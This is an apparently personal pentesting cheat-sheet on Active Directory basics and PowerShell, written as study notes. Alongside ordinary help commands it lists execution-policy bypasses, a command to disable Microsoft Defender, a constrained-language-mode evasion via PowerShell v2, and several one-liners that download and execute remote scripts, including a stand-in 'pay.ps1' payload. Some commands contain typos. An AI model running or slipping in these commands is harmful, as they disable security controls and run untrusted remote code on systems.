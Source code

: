 # AD - Basics & PowerShell Basics

## AD Basics

* Components of AD
  * Shema - Defines objects and their attributes
  * Query and index mechanisem
  * Global catalog - Information about every object
  * Replication service - Distributes information accross domain controllers
* A forest - which is a security boundary - may contain multiple domains and each domain may contain multiple Ous

### How to interact with Active Directory

* \[ADSI]
* .NET Classes (System.DirectoryServices.ActiveDirectoryy)
* Native Executables (like net….)
* PowerShell (.NET classes and WMI)

## Powershell Basics

With PowerShell Scripts you can use cmdlets, native commands, functions, .net, dlls, Windows API

### Help Command

Get-Help \* - Lists everything abtout the help topic

Get-Help process (lists everything which contains the word process)

Update-Help - Update the healp system (v3+)

Get-help cmdlet\_name -Full - List full help about a topic

Get-Help cmdlet\_name -Examples

Get-command -CommandType cmdlet - List all cmdlets



**Use this parameter to not print errors powershell**\
****-ErrorAction SilentlyContinue

**Rename powershell windows**\
****$host.ui.RawUI.WindowTitle = "name"\
****&#x20;

### Execution Policy

It is NOT a security boundary

Powershell -exectionpolicy bypass\
powershell -ep bypass\
Powershell -c \<cmd>\
Powersehll -encodedcommand $env:PSExecutionPolicyPreference="bypass"

### Language Mode

**Display current language mode**\
$executioncontext.sessionstate.languagemode

Constrained Language mode is the restriction of types which are not safe/disallowed in constrained language mode. E.g. .Net Classes,\
Only Built-In Commandlets can be used and types/classes etc. are restricted\
Can be configured via AppLoker or Windows Defender Application Mode in Enforcement mode.

Constrained language mode is only for Powershellv5.1, v7 - if attacker can run Powershellv2 no language mode enforcement is possible.

**Disable Microsoft Defender**\
****Set-MpPreference -DisableRealtimeMonitoring $true

****

### Execute .PS1 File / PowerView

. .\PowerView.ps1

iex(iwr https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1 -UseBasicParsing)

### Execute AD Module

Download [https://github.com/samratashok/ADModule](https://github.com/samratashok/ADModule)

Import-Module .\Microsoft.ActiveDirectory.Management.dll -Verbose\
Import-Module .\ActiveDirectory\ActiveDirectory.psd1

{% hint style="info" %}
Most of the AD Modules have the -Filter -Properties and -Identity options!

Get-AD-User -Filter \* -Properties \*\
Get-AD-User -Identity username1 -Properties \*
{% endhint %}

\
iex (new-Object Net.WebClient).DownloadString('[https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory](https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1'\);Import-ActiveDirectory)

To be able to list all the cmdlets in the module, import the module as well. Remember to import the DLL first.\
Import-Module C:\ADModule\Microsoft.ActiveDirectory.Management.dll -Verbose\
Import-Module C:\AD\Tools\ADModule\ActiveDirectory\ActiveDirectory.psd1\
Get-Command -Module ActiveDirectory

### Module

**Import a module/file**\
Import-Module \<modulepath>

**List all commands of a module**\
Get-Command -Module \<modulename>

**Display Loaded functions**\
ls function:

### Download and execute PowerShell Scripts

iex (New-Object Net.WebClient).DownloadString('https://webserver/pay.ps1') - Invoke Expression (iex alias)

&#x20;**Use a COM Object**

$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('https://webserver/pay.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response

**PSv3 or newer**

Iex (iwr '[http://websever/ps.ps1](http://websever/ps.ps1)') -iwr is alias for invoke-web request

&#x20;$h=New-Object -ComObject\
Msxml2.xmlhttp;$h.open('GET','http://webserver/ps.ps1',$fasle);$h.send();iex $h.responseText

&#x20;$wr = \[System.NET.WebRequest]::Create("http://werbser.ps.ps1")\
$r = $wr.GetResponse()\
IEX (\[System.IO.StreamReader]\($r.GetResponseStream())).ReadToEnd()

&#x20;








